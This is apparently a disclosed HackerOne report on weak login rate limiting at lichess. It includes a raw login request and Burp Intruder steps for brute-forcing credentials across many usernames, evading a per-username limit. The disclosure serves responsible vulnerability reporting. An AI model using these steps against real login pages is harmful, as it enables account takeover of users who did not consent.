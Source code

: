# Weak Rate Limiting Controls in the (LOGIN) page Expose System to Brute Force and DoS Attacks

## Report Details
- **Report ID**: 3085889
- **URL**: https://hackerone.com/reports/3085889
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2025-04-09T14:25:04.801Z
- **Disclosed**: 2025-05-15T11:11:04.687Z

## Reporter
- **Username**: hajjaj-
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: lichess

## Vulnerability Information
## Summary:

The login page lacks proper rate limiting, allowing an attacker to easily perform a brute-force attack. This vulnerability enables the attacker to systematically try different username and password combinations until they successfully compromise any account, which poses a significant security risk.

## Steps To Reproduce:

1.    Navigate to the login page.

2. Attempt login with any valid credentials.

 3.  Capture the request using a proxy tool (e.g., Burp Suite).

  +  Modify the captured request by deleting the token parameter and the cookies to make the request look like this:
====================================================================
POST /login HTTP/2
Host: lichess.org
Content-Length: 343
Cache-Control: max-age=0
Sec-Ch-Ua-Platform: "Linux"
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryc5GZocBapliqt011
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: */*
Origin: https://lichess.org
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://lichess.org/login
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

------WebKitFormBoundaryc5GZocBapliqt011
Content-Disposition: form-data; name="username"

§username§
------WebKitFormBoundaryc5GZocBapliqt011
Content-Disposition: form-data; name="password"

§password§
------WebKitFormBoundaryc5GZocBapliqt011
Content-Disposition: form-data; name="remember"

true
------WebKitFormBoundaryc5GZocBapliqt011-- 
=================================================================================

5.    Send the request to Burp's Intruder, adding a username wordlist for the "username" field and a password wordlist for the "password" field. Run the attack with the cluster bomb payload type.

    +   The wordlists should be large and realistic, matching common usernames and passwords (this will prevent rate-limiting issues caused by a smaller wordlist).

       + A smaller wordlist will cause the app to respond with 429 Too Many Requests due to insufficient time between attempts.

6.    Launch the attack, and you should eventually find a valid pair of credentials (response code 200 OK).

      + Ensure auto encoding is turned off in Burp Suite, as the credentials in the request are in plaintext.

     +   Note: The valid username will match many incorrect password attempts before the correct password is found and the app will not even feel that or make any reaction

Cause of the Vulnerability:

The vulnerability exists because the rate-limiting mechanism only checks for excessive requests to individual usernames. It does not account for multiple requests being sent to different usernames, allowing an attacker to bypass the rate-limiting by targeting a range of usernames. This creates an opportunity for a brute-force attack across a large set of accounts.

## Supporting Material/References:
{F4234333}
{F4234390}
{F4234544}

  * [attachment / reference]

## Impact

This vulnerability can lead to account takeover, privilege escalation, and the theft of sensitive user data.

## Attachments
- image.png
- image.png
- image.png
